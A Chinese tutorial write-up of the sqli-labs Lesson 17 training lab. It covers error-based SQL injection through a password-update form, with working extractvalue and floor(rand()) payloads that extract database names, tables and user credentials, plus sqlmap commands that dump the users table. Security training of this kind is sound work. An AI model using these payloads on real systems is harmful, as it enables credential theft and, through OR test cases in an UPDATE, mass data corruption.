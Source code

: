 ```yaml
---
title: sqli-labs lession 17 POST基于错误的更新
date: 2018-09-28 09:11:00
tags:
categories: sql注入
---
```

# sqli-labs lession 17 POST基于错误的更新 #
---

## 登录界面 ##

![1](/img/sql/Lesson-17/1.png)

## 手注 ##

### 分析 ###

根据题目意思要利用的是Update的错误。先检查一下UserName这一块。

发现输入一些信息后无论怎样都没触发错误。检查源码

![2](/img/sql/Lesson-17/2.png)

发现uname被check_input函数处理了。通读代码,理解一下什么意思。

	function check_input($value)
	{
	if(!empty($value))
		//检查传入的账号名为非空
		{
		// truncation (see comments)
		$value = substr($value,0,15);
		//限制用户名长度为15以下,如果传入的用户名超过15位会只使用前15位
		}

		// Stripslashes if magic quotes enabled
		if (get_magic_quotes_gpc())
		//获取当前php.ini配置文件中magic_quotes_gpc的配置选项设置

<font color=red>用phpstudy切换版本php5.2.17+Aphache</font>

可以看到php.ini配置文件中`magic_quotes_gpc`配置打开了。

![3](/img/sql/Lesson-17/3.png)

在php.net查看该函数详细信息。

![4](/img/sql/Lesson-17/4.png)


* 当php.ini里的magic_quotes_gpc=On时，提交的变量中所有的单引号，双引号，反斜线，NUL（NULL字符）会自动转为含有反斜线的转义字符

* 魔术引号（Magic Quote）是一个自动将进入PHP脚本的数据进行转义的过程。（对所有的GET，POST，Cookie数据进行转义）

这就是我输入的数据没被数据库解析的原因,它把引号转义了。

			{
			$value = stripslashes($value);
			//使用stripslashes()去掉多余的反斜杠
			}

		// Quote if not a number
		if (!ctype_digit($value))
			//检查$value是不是十进制数字,如果不是就执行if中的语句

![5](/img/sql/Lesson-17/5.png)

给特殊字符添加转义

			{
			$value = "'" . mysql_real_escape_string($value) . "'";
			//转义特殊字符并用''拼接
			}
		else
			{
			$value = intval($value);
			//获取$value的整数值
			}
		return $value;
	}

写个`admin'`进去,它就做了如下处理

![6](/img/sql/Lesson-17/6.png)

根据上述username不是很好利用,利用password。因为password没有经过函数过滤。

![7](/img/sql/Lesson-17/7.png)

根据题目提示,发现这里其实是一个update的功能,用来修改账户的密码。

只要用户名查询存在,可以修改任意密码。

![8](/img/sql/Lesson-17/8.png)

修改admin用户密码为123456,提交。

![9](/img/sql/Lesson-17/9.png)

密码修改成功。

### 判断类型 ###

为了实验成功先确认php.ini文件中`magic_quotes_gpc`为`Off`,因为它是一个全局配置,启用下会将对POST请求的password中的特殊字符转义。

![10](/img/sql/Lesson-17/10.png)

单引号报错,构造报错注入。

### 获取当前数据库 ###

`' and extractvalue(null,concat(0x7e,database(),0x7e))#`

![11](/img/sql/Lesson-17/11.png)

### 获取表 ###

`' and extractvalue(null,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e))#`

![12](/img/sql/Lesson-17/12.png)

### 获取列 ###

`' and extractvalue(null,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'),0x7e))#`

![13](/img/sql/Lesson-17/13.png)

### 获取字段值 ###

![14](/img/sql/Lesson-17/14.png)

`' and (select 1 from (select count(*),concat((select concat(id,'-',username,'-',password) from security.users limit 0,1), '~' , floor (rand()*2))as a from information_schema.tables group by a) as b limit 0,1) #`

## SQLMAP ##

`sqlmap -u http://10.60.250.66/sqlilabs/Less-17/ --data "uname=admin&passwd='and 1=2&submit=Submit" --threads 10 --technique E`

![15](/img/sql/Lesson-17/15.png)


![16](/img/sql/Lesson-17/16.png)

`sqlmap -u http://10.60.250.66/sqlilabs/Less-17/ --data "uname=admin&passwd='and 1=2&submit=Submit" -D security -T users --columns --dump`

![17](/img/sql/Lesson-17/17.png)

我擦,sqlmap这个payload把密码全改成了0,这个有待观察。

查了一些资料,终于找到问题了,update报错注入要注意不能带入or的测试用例,不然会给数据库数据带来翻天覆地的变化。下面我的url地址换了,不过其实一样。

刚开始数据库信息:

![18](/img/sql/Lesson-17/18.png)

--data:指定请求信息

-p:指定参数

--dbms:指定后端数据库

--threads:指定并发线程数

--method:指定请求方式

--flush-session:清除session

--fresh-queries:发起新的请求

--level 1:尝试POST和GET注入 

--risk 1:仅测试常见用例

--technique E:仅测试报错注入方式

`sqlmap -u "http://10.60.250.66/sql/Less-17/" --data "uname=admin&passwd=woshiadmin&submit=Submit" -p passwd --dbms mysql --threads 10 --method POST --flush-session --fresh-queries --level 1 --risk 1 --technique E`

![19](/img/sql/Lesson-17/19.png)

在出现这条提示后先不要执行,查看数据库,发现admin账号的密码被修改。

![20](/img/sql/Lesson-17/20.png)

<font color=red>已经找到了可能注入点,不需要测试所有用例,因为所有用例中必定会有or的用例,会对数据库进行破坏,选n</font>

![21](/img/sql/Lesson-17/21.png)

继续用no

![22](/img/sql/Lesson-17/22.png)

接下来就对了。

`sqlmap -u "http://10.60.250.66/sql/Less-17/" --data "uname=admin&passwd=woshiadmin&submit=Submit" -p passwd --dbms mysql --threads 10 --method POST  --level 1 --risk 1 --technique E -D security -T users --columns --dump`

![23](/img/sql/Lesson-17/23.png)